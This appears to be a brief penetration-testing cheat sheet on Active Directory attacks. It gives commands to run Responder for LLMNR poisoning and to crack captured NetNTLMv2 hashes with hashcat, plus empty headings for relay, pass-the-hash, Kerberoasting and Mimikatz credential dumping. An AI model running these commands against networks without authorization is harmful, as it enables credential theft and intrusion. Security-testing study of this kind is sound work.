 # Basic AD Attacks
### LLMNR/Responder
Start Responder
```bash
sudo Responder -I <iface> -dwP
```
Crack w/ hashmode 5600 in hashcat
```bash
hashcat -a 0 -m 5600 <hashfile> <wordlist>
```
### SMB Relay
SMB Signing must be disabled or not enforced
### IPv6 DNS TakeOver

### Passback Attacks

### Pass the Hash (PTH)

### Kerberoast

### Token Impersonation

### LNK File Attacks

### Credential Dumping (Mimikatz)

